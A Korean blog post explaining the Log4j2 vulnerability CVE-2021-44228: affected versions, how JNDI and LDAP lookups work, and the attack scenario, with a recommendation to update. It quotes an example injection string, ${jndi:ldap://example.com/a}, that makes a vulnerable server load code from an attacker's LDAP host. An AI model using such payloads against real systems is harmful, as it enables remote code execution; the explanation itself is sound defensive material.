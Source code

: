 ```yaml
---
title: Log4j2 취약점(CVE-2021-44228)
tags:
  - security
date: 2021-12-13 14:02:39
---
```


## Log4j2 취약점이란?
CVE-2021-44228은 2021년에 발견된, 널리 사용되는 자바 기반의 loggin 패키지인 Log4j의 취약점이다. 이는 공격자가 원격 서버에서 코드를 실행하는(Remote Code Execution, RCE) 공격을 허용하기 때문에 심각한 위협이 된다. 해당 취약점은 Log4j 버전 2(2.0-beta-9부터 2.14.1)에 존재하며, 2.15.0 버전에서 패치되었다. 

## JNDI와 LDAP
Log4j 패키지는 2013년에 v2.0-beta-9에서 "JNDILookup plugin"을 추가하였다. JNDI는 Java Naming and Directory Interface의 약어로, Java 프로그램이 디렉토리에 위치하는 데이터에와 자원에 접근하기 위한 인터페이스이다. Java 프로그램은 JNDI와 LDAP(Lightweight Directory Access Protocol)을 사용하여 LDAP 서버에 접근, LDAP 서버에서 객체를 로드할 수 있는데, localhost(해당 Java 프로그램이 실행되는 머신)의 LDAP 서버 말고도 LDAP URL을 사용하여 인터넷에 연결된 임의의 머신에서 실행되는 LDAP 서버를 지정할 수 있다. 즉, 공격자가 특정 Java 프로그램의 LDAP URL을 수정할 수 있는 권한을 얻게 된다면 해당 프로그램이 실행되면서 공격자가 원하는 서버에 위치한 객체를 로드할 수 있다는 것이다.

## 공격 시나리오
공격자가 Log4j를 통해 \${jndi:ldap://example.com/a} 같은 형태의 문자열을 출력할 경우, Log4j는 example.com의 LDAP서버에 접근하여 객체를 반환하게 된다. 이는 Log4j가 \${prefix:name} 형태의 특수 구문을 지원하여 여러가지 Lookup을 지원하기 때문인데, key가 ":"을 포함할 경우 기본 prefix인 "java:comp/env/"가 붙지 않고 LDAP 서버에 쿼리가 발생한다.
따라서 공격자는 log가 발생하는 input을 찾아내어 \${jndi:ldap://example.com/a} 형식의 log가 발생하도록 하면 자신이 원하는 LDAP 서버에 위치한 코드를 실행할 수 있다. 이는 Java 기반의 인터넷과 직접 상호작용(Internet facing)하는 소프트웨어의 일반적인 공격 시나리오이며, 인터넷과 직접 상호작용하지 않는 Java 기반의 소프트웨어도 시스템 간 데이터 전송을 통해 공격 대상이 될 수 있다. 따라서, Log4j를 사용하는 모든 Java 기반 시스템은 반드시 업데이트가 요구되는 상황이다. 

### 출처
- https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/
- https://logging.apache.org/log4j/2.x/manual/lookups.html